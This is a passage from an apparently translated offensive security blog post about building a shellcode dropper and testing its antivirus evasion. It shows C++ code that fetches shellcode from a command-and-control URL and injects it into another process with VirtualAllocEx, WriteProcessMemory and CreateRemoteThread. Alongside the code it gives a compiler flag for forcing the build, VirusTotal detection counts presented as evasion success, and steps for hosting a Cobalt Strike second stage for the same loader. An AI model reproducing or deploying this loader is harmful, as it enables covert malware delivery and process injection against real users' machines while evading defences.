 ```
    string s;
    URLOpenBlockingStreamA(0, c2URL, &stream, 0, 0);
    while (true) {
        stream->Read(buff, 461, &bytesRead);
        if (0U == bytesRead) {
            break;
        }
        s.append(buff, bytesRead);
    }
    memAddr = VirtualAllocEx(hProcess, NULL, dwSize,flAllocationType,flProtect);
    cout << "[+] Memory Allocated at:" << memAddr << "\n";
    
    WriteProcessMemory(hProcess, memAddr, buff, dwSize, &bytesOut);
    cout << "[+] Number of bytes written: " << bytesOut << "\n";

    CreateRemoteThread(hProcess, NULL, dwSize, (LPTHREAD_START_ROUTINE)memAddr, 0, 0, 0);
    cout << "[+] Thread Spawned, PID: " << NULL << "\n";
    stream->Release();
    return 0;
}

```

_上面的代码可以用 Visual Studio 2019 编译——你可能会遇到编译错误；添加 /sdl- 标志以忽略错误并无论如何编译_

在这次运行中，只有 3 家反病毒供应商在没有 Metasploit 标志的情况下选择了有效负载。

https://www.virustotal.com/gui/file/ca2a3ee12e0909984c04e698ce55c4eb97627bfe8118e742b094f57ac0027788

**奖金回合第 2 部分 - 钴打击！**

使用相同的方法生成 shellcode，我们将在 Cobalt Strike 中托管我们的 “第二阶段”，我们可以通过转到 Attacks -> Web Drive By -> Host Files 来实现。

同样重要的是要注意生成的 shellcode 是十六进制的，您必须解码十六进制并将其作为原始字节值存储在 Web 服务器上。我们可以使用上面相同的程序，只需将有效负载大小从 461 字节修改为 892 字节。

![](https://mmbiz.qpic.cn/mmbiz_png/icqm3vRUymZliaiarx6Eh39hbkicyX1P1qFvqibZdHktKVV4V0KEd0ic7OyxejlPXsC2E3buzAJ3rqficTq3S7svtKc9g/640?wx_fmt=png)_使用 Cobalt Strike 托管文件_

我们可以通过执行我们的文件编译代码再次执行文件来验证我们的脚本是否有效：

现在我们可以上传到 VT：

![](https://mmbiz.qpic.cn/mmbiz_png/icqm3vRUymZliaiarx6Eh39hbkicyX1P1qFv2W0BJE8ib4xwYv2BBZYBd9YgVfOSd1hIiaxH0KrNl8yTlMmHvuc9GGVg/640?wx_fmt=png)https://www.virustotal.com/gui/file/5c57f6b7dd68a76340d88043f6702a0e33b50f06607ec18e0b594810748fb45a?nocache=1

再一次，我们总共有三个检测。有了内存中的 shellcode，我们当然可以看到构建一个 dropper 快速、简单，不需要大量的技能，并且在上传到 VirusTotal 时有很大的不同。

我喜欢大多数人，没有购买 70 种不同的防病毒软件，所以很遗憾我无法在私人实验室（即不是由 VT 托管）进行交叉比较。但我可以访问的是帕洛阿尔托防火墙。那么让我们来看看一些网络流量

基于网络的检测
-------

所以现在我们对主机上的外观有了更好的了解，让我们看看它在网络上的外观！我将在我自己的网站上托管我的有效载荷

Cobalt Strike - 无阶段
-------------------
